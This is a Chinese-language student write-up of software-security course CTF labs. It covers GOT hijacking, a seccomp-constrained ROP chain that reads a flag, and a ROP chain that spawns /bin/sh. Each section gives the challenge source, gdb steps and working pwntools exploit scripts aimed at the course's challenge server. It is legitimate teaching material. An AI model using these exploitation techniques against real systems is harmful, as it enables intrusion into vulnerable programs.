


# 2022 交大程式安全 HW6 writeup

## [LAB] got2win
題目如下
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>

char flag[0x30];

int main()
{
    setvbuf(stdin, 0, _IONBF, 0);
    setvbuf(stdout, 0, _IONBF, 0);

    int fd = open("/home/chal/flag", O_RDONLY);
    read(fd, flag, 0x30);
    close(fd);
    write(1, "Good luck !\n", 13);

    unsigned long addr = 0;
    printf("Overwrite addr: ");
    scanf("%lu", &addr);
    printf("Overwrite 8 bytes value: ");
    read(0, (void *) addr, 0x8);

    printf("Give me fake flag: ");
    int nr = read(1, flag, 0x30);
    if (nr <= 0)
        exit(1);
    flag[nr - 1] = '\0';
    printf("This is your flag: ctf{%s}... Just kidding :)\n", flag);

    return 0;
}
```
首先題目會去讀 flag 檔案，並將值讀進 flag 變數中\
接著讀使用者輸入的 address，以及輸入的 8 bytes 數值\
然後將輸入的 8 bytes 數值讀進輸入的 memory address 裡\
而後面的部分就比較奇怪了，read 應該是從 0 (stdin) 讀值進來存到 flag 變數，但這邊卻是從 1 (stdout)

下 ```checkset``` 指令查看有哪些保護機制

可看到沒有啟用 PIE，所以 memory address 會是固定的\
而 relocation 機制是 Partial RELRO，從講師的投影片可得知是採用 GOT 的 lazy binding 機制

加上題目原本就會讓你讀入數值放進 memory address 裡，因此可進行 GOT hijacking\
將特定 function 在 GOT 裡的值進行竄改，改成其他 function 的 address

至於看起來很奇怪的這部分 ```read(1, flag, 0x30)```
在傳入的參數不變的情況下，只要將 read 改為 write function，就能直接印出 flag 值\
因此如同講師上課的解說，把 read function 在 GOT 裡存的值改為 write function 的 address 即可

用 gdb， 先找 open function 的 GOT 的 address
```sh
gdb ./chal
start
```

下 ```got``` 查看 GOT 裡的內容

得知 read function 的 GOT 位置在 0x404038
```sh
x 0x404038
```


接下來要找 write function 的 address 在哪裡，一直按 ```n``` 執行下一個指令直到 call write 這邊

到這邊後別再按 n，否則會跑到圖中的下一個指令\
打 ```si``` 進到 ```call write@plt``` 裡

得知 write function 的 address 為 0x4010c0

撰寫解題腳本
```python
# got2win/solve.py
from pwn import *

context.arch = 'amd64'
r = remote('edu-ctf.zoolab.org', 10004)

read_got = 0x404038
write_plt = 0x4010c0

r.sendlineafter(b'Overwrite addr: ', str(read_got).encode())
r.sendafter(b'Overwrite 8 bytes value: ', p64(write_plt))

r.interactive()
```

成功找出 flag 為 ```FLAG{apple_1f3870be274f6c49b3e31a0c6728957f}```
## [LAB] rop2win
題目如下
```c
#include <stdio.h>
#include <unistd.h>
#include <seccomp.h>

char fn[0x20];
char ROP[0x100];

// fd = open("flag", 0);
// read(fd, buf, 0x30);
// write(1, buf, 0x30); // 1 --> stdout

int main()
{
    setvbuf(stdin, 0, _IONBF, 0);
    setvbuf(stdout, 0, _IONBF, 0);

    scmp_filter_ctx ctx = seccomp_init(SCMP_ACT_KILL);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
    seccomp_load(ctx);
    seccomp_release(ctx);

    printf("Give me filename: ");
    read(0, fn, 0x20);

    printf("Give me ROP: ");
    read(0, ROP, 0x100);

    char overflow[0x10];
    printf("Give me overflow: ");
    read(0, overflow, 0x30);

    return 0;
}
```
題目用 seccomp 限制只能使用的 syscall 只有\
open、read、write、exit、exit_group，不能使用 exec 拿 shell

下 ```checkset``` 指令查看有哪些保護機制

可得知有啟用 NX，無法執行 shellcode\
原本這題如果沒有啟用 NX 的話就可寫一段 shellcode 去讀 flag 的值\
雖然無法執行 shellcode，不過仍可透過串 ROP 去讀出 flag 的值


首先用 gdb 找出 fn 和 ROP 這兩個全域變數的 address
```sh
x &fn
x &ROP
```

找到後把 address 存起來
```python
ROP_addr = 0x4e3360
fn_addr = 0x4e3340
```
接下來按照講師上課的解說，串一段 ROP 來讀 flag 的值\
而 fn 裡面存的值會是我們給的 flag 檔案路徑\
用 ROPgadget 指令獲取可以用的 gadget 並將結果輸出至另一個檔案裡 (out)
```sh
ROPgadget --multibr --binary ./chal > out
```
接著使用 cat 指令和 grep 指令從 out 檔案裡過濾出我們想找的 gadget
```sh
cat ./out | grep "要找的gadget"
```
```python
# ROPgadget --multibr --binary ./chal > out
pop_rdi_ret = 0x4038b3 # cat ./out | grep "pop rdi ; ret"
pop_rsi_ret = 0x402428 # cat ./out | grep "pop rsi ; ret"
# pop_rdx_ret: cat ./out | grep "pop rdx ; ret"
pop_rax_ret = 0x45db87 # cat ./out | grep "pop rax ; ret"
leave_ret = 0x40190c # cat ./out | grep "leave ; ret"
syscall_ret = 0x4284b6 # cat ./out | grep "syscall ; ret"
```


用講師的方法串 ROP chain
1. open(fn, 0)\
對 flag 檔案開檔，由於三個預設的 fd 已被使用 (0 = stdin，1 = stdout，2 = stderror)\
所以 open 回傳的 fd 會是 3，至於第二個參數 0 代表的是 read only\
因此第一個參數 fn_addr 要 pop 進 rdi，第二個參數 0 要 pop 進 rsi\
而 open 的 syscall number 是 2，所以 pop 到 rax 的是 2
2. read(3, fn, 0x30)\
接著對 3 這個 fd 進行讀檔，並將讀到的內容存到 fn 變數裡，此時 fn 裡就會是 flag 值了\
第一個參數 rdi = 3，第二個參數 rsi = fn_addr，第三個參數 rdx = 0x30\
而 read 的 syscall number = 0，所以 rax = 0\
3. write(1, fn, 0x30) 最後將 fn 裡存的內容輸出到 stdout 中，也就是 print 到螢幕上
```python
from pwn import *

ROP = flat(
    # open(fn, 0)
    pop_rdi_ret, fn_addr,
    pop_rsi_ret, 0,
    pop_rax_ret, 2,
    syscall_ret,
    # read(3, fn, 0x30)
    pop_rdi_ret, 3,
    pop_rsi_ret, fn_addr,
    pop_rdx_ret, 0x30,
    pop_rax_ret, 0,
    syscall_ret,
    # write(1, fn, 0x30)
    pop_rdi_ret, 1,
    pop_rsi_ret, fn_addr,
    pop_rdx_ret, 0x30,
    pop_rax_ret, 1,
    syscall_ret,
)
 ```
但是這邊如果完全照著講師的方式做的話，會發現剛才在找 gadget 時根本找不到 ```pop rdx ; ret```
而講師上課 demo ROP 的範例時，有提到如果找不到 ```pop rdx ; ret``` 的話，可以改找 ```pop rdx ; pop rbx ; ret```

也就是改成
 ```python
pop_rdx_rbx_ret = 0x493a2b # cat ./out | grep "pop rdx ; pop rbx ; ret"

# read(3, fn, 0x30)
pop_rdi_ret, 3,
pop_rsi_ret, fn_addr,
pop_rdx_rbx_ret, 0x30,
pop_rax_ret, 0,
syscall_ret,
# write(1, fn, 0x30)
pop_rdi_ret, 1,
pop_rsi_ret, fn_addr,
pop_rdx_rbx_ret, 0x30,
pop_rax_ret, 1,
syscall_ret,
```
但實際測試後會發現這樣行不通，於是這邊卡了很久，不知道原因是什麼\
後來才發現 ```pop rdx ; ret``` 如果變成 ```pop rdx ; pop rbx ; ret``` 會從 stack 裡 pop 兩個東西出來\
但原本是只有 pop 一個東西 (rdx)，因此必須要在 rdx 後面再放一個東西，後面執行流程才會是對的\
於是修改成
```python
# read(3, fn, 0x30)
pop_rdi_ret, 3,
pop_rsi_ret, fn_addr,
pop_rdx_rbx_ret, 0x30, 0,
pop_rax_ret, 0,
syscall_ret,
# write(1, fn, 0x30)
pop_rdi_ret, 1,
pop_rsi_ret, fn_addr,
pop_rdx_rbx_ret, 0x30, 0,
pop_rax_ret, 1,
syscall_ret,
```
最後的解題腳本
```python
# rop2win/solve.py
from pwn import *

context.arch = 'amd64'
r = remote('edu-ctf.zoolab.org', 10005)

ROP_addr = 0x4e3360
fn_addr = 0x4e3340

# ROPgadget --binary ./chal > out
pop_rdi_ret = 0x4038b3 # cat ./out | grep "pop rdi ; ret"
pop_rsi_ret = 0x402428 # cat ./out | grep "pop rsi ; ret"
# pop_rdx_ret: cat ./out | grep "pop rdx ; ret"
pop_rdx_rbx_ret = 0x493a2b # cat ./out | grep "pop rax ; pop rdx ; pop rbx ; ret"
pop_rax_ret = 0x45db87 # cat ./out | grep "pop rax ; ret"
leave_ret = 0x40190c # cat ./out | grep "leave ; ret"
syscall_ret = 0x4284b6 # cat ./out | grep "syscall ; ret"

ROP = flat(
    # open(fn, 0)
    pop_rdi_ret, fn_addr,
    pop_rsi_ret, 0,
    pop_rax_ret, 2,
    syscall_ret,
    # read(3, fn, 0x30)
    pop_rdi_ret, 3,
    pop_rsi_ret, fn_addr,
    pop_rdx_rbx_ret, 0x30, 0,
    pop_rax_ret, 0,
    syscall_ret,
    # write(1, fn, 0x30)
    pop_rdi_ret, 1,
    pop_rsi_ret, fn_addr,
    pop_rdx_rbx_ret, 0x30, 0,
    pop_rax_ret, 1,
    syscall_ret,
)
r.sendafter(b'Give me filename: ', b'/home/chal/flag\x00')
r.sendafter(b'Give me ROP: ', b'A'*0x8 + ROP)
r.sendafter(b'Give me overflow: ', b'A'*0x20 + p64(ROP_addr) + p64(leave_ret))
r.interactive()
```
不過這邊要注意的是，flag 檔案路徑並不是原本的 '/home/rop2win/flag'\
從 docker-compose.yml 檔案裡可以看到 share 資料夾的真實路徑是 /home/chal

而 local 的 flag 檔案是被放在 share 資料夾裡，因此正確的 flag 檔案路徑為 '/home/chal/flag'\
Give me ROP 這邊，因為 ROP 前面有 8 bytes 的東西，所以要隨便塞 8 bytes\
最後 Give me overflow 這裡，在放 ROP_addr 和 leave_ret 之前\
用 gdb 可看出 overflow 的大小是 0x10\
因此 ROP_addr 和 leave_ret 前面還要放 0x10 + 0x10 = 0x20 bytes

執行解題腳本，成功找出 flag 為 ```FLAG{banana_72b302bf297a228a75730123efef7c41}```


## [HW] rop++
題目如下
```c
#include <stdio.h>
#include <unistd.h>
#include <string.h>

int main()
{
    char buf[0x10];
    const char *msg = "show me rop\n> ";

    write(1, msg, strlen(msg));
    read(0, buf, 0x200);
    
    return 0;
}
```
題目單純讀一段夠長的內容去 overflow\
下 ```checkset``` 指令查看有哪些保護機制

可得知有啟用 NX，無法執行 shellcode，不過可透過串 ROP chain 來拿 shell\
而這題跟 pwn 第一週講師上課 demo 的 ROP 範例幾乎一樣\
只差在這題沒有給 /bin/sh 的位址，所以我們要自己給 /bin/sh 的位址\
先貼解題腳本，以方便解說
```python
# rop++/solve.py
from pwn import *

context.arch = 'amd64'
r = remote('edu-ctf.zoolab.org', 10003)

# ROPgadget --multibr --binary ./chal > out
pop_rdi_ret = 0x401e3f # cat ./out | grep "pop rdi ; ret"
pop_rsi_ret = 0x409e6e # cat ./out | grep "pop rsi ; ret"
pop_rcx_ret = 0x450ed5 # cat ./out | grep "pop rcx ; ret"
mov_ptr_rdi_rcx = 0x42cc1b # cat ./out | grep "mov qword ptr \[rdi\], rcx ; ret"
# pop_rdx_ret: cat ./out | grep "pop rdx ; ret"
pop_rdx_rbx_ret = 0x47ed0b # cat ./out | grep "pop rdx ; pop rbx ; ret"
pop_rax_ret = 0x447b27 # cat ./out | grep "pop rax ; ret"
syscall_ret = 0x414506 # cat ./out | grep "syscall ; ret"

buf = 0x4c5000 + 200

ROP = flat(
    # exec('/bin/sh', 0, 0)
    pop_rdi_ret, buf,
    pop_rcx_ret, b'/bin/sh\x00',
    mov_ptr_rdi_rcx,
    pop_rsi_ret, 0,
    pop_rdx_rbx_ret, 0, 0,
    pop_rax_ret, 0x3b,
    syscall_ret,
)
r.sendlineafter(b'show me rop\n> ', b'A'*0x28 + ROP)
r.interactive()
```
首先一樣仿照上一題的做法串 ROP chain，不過這題是改成去拿 shell\
用 ROPgadget 取得要用的 gadget，其中會發現 pop_rdx_ret 的 gadget 一樣找不到\
因此跟上一題一樣改成用 pop_rdx_rbx_ret，並記得要多 pop 一個東西到 rbx 裡


而這題關鍵的部分是要找一段可讀可寫的記憶體位址區域，將 /bin/sh 字串寫在該位址\
尋找的方法是用 gdb 下 vmmap 指令，就能查看所有記憶體區域的權限

從圖中可得知 0x4c5000 到 0x4c8000 這塊記憶體區域是可讀可寫的 (rw)\
但是這邊要注意如果選 0x4c5000 的話會行不通\
參考了這篇文章後 https://hackmd.io/@yenpc/S1YCxLQt7?type=view
才知道是因為 buffer 可能已作為其他用途被使用，過程中 buffer 存的值可能會被覆寫\
因此不能挑 0x4c5000，那我是挑 0x4c5000 + 200 這個位址就可以了

找到一個可讀可寫的位址後，接著要想辦法將 /bin/sh 字串寫到裡面\
我這邊是用 ```mov qword ptr [rdi], rcx ; ret``` 這個 gadget\
它會把 rcx 存的值放進 [以 rdi 存的值為指標] 指向的位址裡\
不過這裡要注意一下 grep 是用 regular expression 解析字串\
[ 和 ] 是特殊字元，必須要在前面加上反斜線 \\，才能成功過濾出來\


首先 ```pop_rdi_ret, buf,``` 將第一個參數 rdi 設為 buf 這個位址\
接著 ```pop_rcx_ret, b'/bin/sh\x00',```
將 /bin/sh 字串 pop 進一個與 exec syscall 無關的暫存器裡，我是挑 rcx，將 rcx 存的值變為 /bin/sh 字串\
然後 ```mov_ptr_rdi_rcx,``` 會把 rcx 存的值寫到 buf 這個記憶體位址裡，因此 /bin/sh 字串就會被寫進 buf 裡\
於是成功讓 syscall 的第一個參數變為 /bin/sh 字串

最後，跟上一題一樣，要用 gdb 去看 overflow 的 offset 是多少，才能成功用指定的位址蓋掉 rbp\
一直按 n 或 enter 到 read 這邊

按 si 進到 read 裡面，接著按好幾次 enter 到這邊

再按一次 enter，程式會讓你輸入字串，這邊隨便打一串 a，接著再按幾次 enter 停在 ret

可看到 rsp 和 rbp 相差 0x540 - 0x518 = 40 = 0x28 個 bytes\
得知 overflow 的 offset 為 0x28，因此 ROP 前面要塞 0x28 個 bytes

最後執行解題腳本，成功拿到 shell\
而 flag 檔案的路徑也可從 docker-compose 裡面知道\
share 資料夾的真實路徑是 /home/chal\
而 local 的 flag 檔案是被放在 share 資料夾裡，故 flag 檔案的路徑為 /home/chal/flag


成功找出 flag 為 ```FLAG{chocolate_c378985d629e99a4e86213db0cd5e70d}```

## [HW] how2know